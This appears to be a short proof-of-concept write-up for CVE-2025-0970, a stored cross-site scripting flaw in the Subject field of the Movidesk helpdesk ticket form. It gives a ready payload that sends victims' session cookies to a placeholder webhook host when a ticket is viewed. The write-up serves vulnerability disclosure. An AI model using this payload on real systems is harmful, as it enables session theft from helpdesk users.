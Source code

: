 # CVE-2025-0970
The Movidesk System by Zenvia is vulnerable to Stored Cross Site Scripting.

**Affected Version: < 25.01.22**

**OBS: For this exploit, you must be authenticated!**


## POC

This vulnerability resides in the /Ticket/Create page in Subject parameter,
Its possible to manipulate the parameter to insert any JavaScript code to the victim browser.

Payload example: `<img src onerror="this.src='http://YOUR-WEBHOOK-SITE?c='+document.cookie">`
Endpoint where the XSS is triggered (ticket view): `https://IP/Ticket`

https://IP/Ticket/Create

---

## Reference

https://www.movidesk.com/